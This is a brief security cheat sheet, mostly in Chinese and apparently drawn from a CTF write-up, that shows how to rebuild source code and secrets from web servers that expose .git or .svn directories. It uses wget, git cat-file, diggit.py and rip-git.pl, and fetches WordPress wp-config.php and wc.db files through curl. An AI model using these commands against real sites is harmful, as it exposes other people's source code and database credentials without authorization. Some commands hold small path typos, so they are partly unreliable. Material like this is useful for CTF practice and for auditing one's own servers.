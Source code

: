# GIT - 资源管理

Github示例
1. 检查.git的403错误（拒绝访问）

2. Git将所有的信息保存在日志文件中.git/logs/HEAD (try 'head' too)
```
0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
```

3. 基于hash获得commit -> 目录名 (前两个符号来自哈希值)和文件名（剩下的）.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c, 
```
# create a .git directory
git init test
cd test/.git

# download the file
wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
mkdir .git/object/26
mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

# display the content of the file
git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
	tree 323240a3983045cdc0dec2e88c1358e7998f2e39
	parent 15ca375e54f056a576905b41a417b413c57df6eb
	author Michael <michael@easyctf.com> 1489390329 +0000
	committer Michael <michael@easyctf.com> 1489390329 +0000
	Initial.
```

4. 获取tree 323240a3983045cdc0dec2e88c1358e7998f2e39
```
wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
mkdir .git/object/32
mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
	040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
	100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
	040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
	100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
	040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
```

5. 读取数据(flag.txt)
```
wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
mkdir .git/object/cb
mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
```



5. 另一种方法：diggit.py
```
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

5. 另一种方法：rip-git
```
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"   

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```




# SVN - 资源管理
SVN例子(Wordpress)
```
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. 下载svn数据库
http://server/path_to_vulnerable_site/.svn/wc.db
```
INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
```

2. 下载一些有趣的文件
remove $sha1$ prefix
add .svn-base postfix
use first two signs from hash as folder name inside pristine/ directory (94 in this case)
create complete path, which will be: http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base


## 感谢
* bl4de, https://github.com/bl4de/research/tree/master/hidden_directories_leaks
* bl4de, https://github.com/bl4de/security-tools/tree/master/diggit
